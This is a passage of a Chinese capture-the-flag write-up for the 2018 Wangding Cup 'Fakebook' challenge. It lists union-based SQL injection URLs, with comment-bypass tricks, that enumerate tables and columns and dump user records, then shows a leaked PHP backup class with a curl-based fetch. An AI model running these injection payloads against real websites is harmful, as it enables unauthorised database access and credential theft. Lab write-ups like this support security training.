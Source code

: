## [网鼎杯 2018]Fakebook

找到注入点

```
http://783c9909-21bd-44ae-9179-2e895fbb9d39.node3.buuoj.cn/view.php?no=0%20union/**/select%201,2,3,4
```

![image-20210405205335225](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405205335.png)

这里还看到了一个反序列化函数。

sql注入过程

```txt

http://c1f692aa-975e-40c3-afaf-23dc3bc26176.node3.buuoj.cn/view.php?no=1 order by 4

http://c1f692aa-975e-40c3-afaf-23dc3bc26176.node3.buuoj.cn/view.php?no=-1 union/**/select 1,2,3,4


http://c1f692aa-975e-40c3-afaf-23dc3bc26176.node3.buuoj.cn/view.php?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
得到    users


http://c1f692aa-975e-40c3-afaf-23dc3bc26176.node3.buuoj.cn/view.php?no=-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
得到    no,username,passwd,data,


http://c1f692aa-975e-40c3-afaf-23dc3bc26176.node3.buuoj.cn/view.php?no=-1 union/**/select 1,group_concat(no,username,passwd,data),3,4 from users
得到  
1yanmie3ca19ee49ab62349ad1e6af2706e2e5bbc2d199e1f90e454df8c1a8339ba01befe92b6ce746a40333ba026fbfcac4db263500df84a67d60a6fe00b72ab24d12fO:8:"UserInfo":3:{s:4:"name";s:6:"yanmie";s:3:"age";i:2;s:4:"blog";s:13:"www.baidu.com";} 
```

可以看到，有个序列化后的字符串，与前边的反序列化函数关联，

信息收集还发现`robots.txt` 里有`user.php.bak` ,

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
```